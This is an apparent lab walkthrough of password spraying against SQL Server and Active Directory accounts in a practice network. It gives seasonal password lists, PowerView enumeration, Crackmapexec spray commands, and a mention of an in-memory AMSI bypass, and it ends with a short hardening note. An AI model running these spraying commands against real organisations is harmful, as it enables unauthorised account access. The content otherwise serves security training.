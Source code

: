 # Weak passwords

## Configuring

### Prerequisite&#x20;

The weak passwords were configured during the creation of the SQL Server users and Domain users in the section "Enumerate Logins".

{% content-ref url="./" %}
[.](./)
{% endcontent-ref %}

## Attacking

### How it works

SQL Servers can have two type of accounts that could connect to it. Domain user accounts and groups or SQL Server accounts. These accounts have access to the SQL server and might have higher privileges then we currently have. By spraying passwords against these user we might get access to them.

#### Password spraying

Password spraying is a type of brute force attack. An attacker will try a default password against a list of usernames. For example, an attacker uses the password `Welcome2022!` against many different accounts to avoid account lockout that would normally occur when brute-forcing a single account with many passwords.

A old habit what a lot of companies enforce is the requirement to change passwords every 30, 60 or 90 days. Which results in people changing their password often, forgetting it and eventually choosing a easy guessable password. Another habbit is adding a increment to the same password or using months/seasons. Which means we can easily create a password list of common passwords and things people would choose using following formats:

* season+year+! (Summer2022!)
* month+year+! (March2022!)
* companyname+year+! (Amsterdambank2022!)
* city+! (Amsterdam!)
* etc.

### Tools

* [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
* [Crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec)

### Executing the attack

1. So during the enumeration we discovered that there are three domain users or groups: `AMSTERDAM\richard`,  `BANK\administrator` and `AMSTERDAM\DatabaseUsers`.&#x20;
2. To check which of these are users and groups, login to `WS01` as `Richard` with the password `Sample123`.
3. Download PowerView on the kali machine and host it on a webserver:

```
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
python3 -m http.server 8090
```

4\. Start PowerShell and download and execute an amsi and PowerView in memory:

![](<../../../../../.gitbook/assets/image (7) (1) (3) (1).png>)

5\. Now we can query these objects using PowerView and the `Get-DomainObject` cmdlet. We already know who Richard is and the Administrator is a well known user. We will query DatabaseUsers:

```
Get-DomainObject DatabaseUsers
```

![](<../../../../../.gitbook/assets/image (52) (1).png>)

6\. The output shows us that the `DatabasUsers` is a group object and that `bob` is its only member.

7\. We already sprayed passwords at the SQL server during the initial access steps. We will do it again here. First we need to make a list of the enumerated logins, we will split them in `sqlusers.txt` and `domainusers.txt`.

```
# sqlusers.txt
Developer
Developer_test
testadmin
bob
SQLAdmin

# domainusers.txt
bob
```

8\. Secondly create a `passwords.txt` file and copy the following passwords like we did during the password spraying attack earlier and we will also add the usernames since sometimes admin set the username as the password:

```
Spring2022!
Winter2022!
Autumn2022!
Summer2022!
Welcome2022!
Bank2022!
AmsterdamBank2022!
Fall2022!
testadmin
bob
SQLAdmin
Developer
Developer_test
```

9\. First we will run Crackmapexec to connect to the MSSQL service running on `WEB01` and spray with local SQL users. We have to use the `--local-auth` flag otherwise it will spray under the domain context. We will also use the `--continue-on-success` flag so it doesn't stop after the first successfull hit.

```
crackmapexec mssql 10.0.0.5 -u sqlusers.txt -p passwords.txt --local-auth --continue-on-success | grep "+"
```

![](<../../../../../.gitbook/assets/image (12) (1) (1) (1) (1) (1).png>)

We found the password for three users and it seems thats `SQLAdmin` has sysadmin rights since it shows `Pwn3d!` , this means it has admin rights. Since we are spraying MSSQL logins this means sysadmin rights. If we were spraying with SMB it meant the user was localadmin on the machine.

10\. We can also run Crackmapexec with the domain context:

```
crackmapexec mssql 10.0.0.5 -u domainusers.txt -p passwords.txt --continue-on-success | grep "+"
```

![](<../../../../../.gitbook/assets/image (18) (1) (1) (1) (1) (1) (1) (1).png>)

We discovered the password of another user `bob`, but this time the Domain User. We already connected to the SQL service using both SQL accounts and Domain user accounts. This can be done with tools such as mssql-cli or heidiSQL.&#x20;

11\. Something we didn't show is that its possible to execute sql queries with crackmapexec:

```
crackmapexec mssql 10.0.0.5 -u SQLAdmin -p Winter2022! --local-auth -q "select @@version"
```

![](<../../../../../.gitbook/assets/image (36) (1) (1).png>)

There will always be loads of tools which can do the same stuff, it will always come down to convenience and where you are used too or like the most. Check the executing commands page under SQL Server Attacks to read how to execute cmd commands:

{% content-ref url="../../executing-commands.md" %}
[executing-commands.md](../../executing-commands.md)
{% endcontent-ref %}

## Defending

### Recommendations

* Implement a strong password policy:

{% content-ref url="../../../../../defence/hardening/strong-password-policy.md" %}
[strong-password-policy.md](../../../../../defence/hardening/strong-password-policy.md)
{% endcontent-ref %}

### Detection



## References

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" %}
